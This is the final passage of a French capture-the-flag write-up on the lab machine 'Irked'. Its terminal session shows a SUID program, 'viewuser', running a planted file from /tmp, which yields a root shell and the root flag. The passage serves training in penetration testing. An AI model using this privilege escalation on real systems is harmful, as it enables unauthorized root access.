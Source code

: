 Une fois le fichier transférer suffis de le chmod et d'éxecuter le programme viewuser.

    djmardov@irked:/tmp$ chmod +x listusers 
    djmardov@irked:/tmp$ viewuser
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2019-02-03 12:09 (:0)
    djmardov pts/0        2019-02-03 12:09 (10.10.13.181)
    djmardov pts/5        2019-02-03 12:15 (10.10.12.230)
    djmardov pts/6        2019-02-03 12:15 (10.10.13.22)
    # bash
    root@irked:/tmp# cat /root/root.txt
    8d8e9[...SNIP...]
    
Merci d'avoir pris le temps de lire.
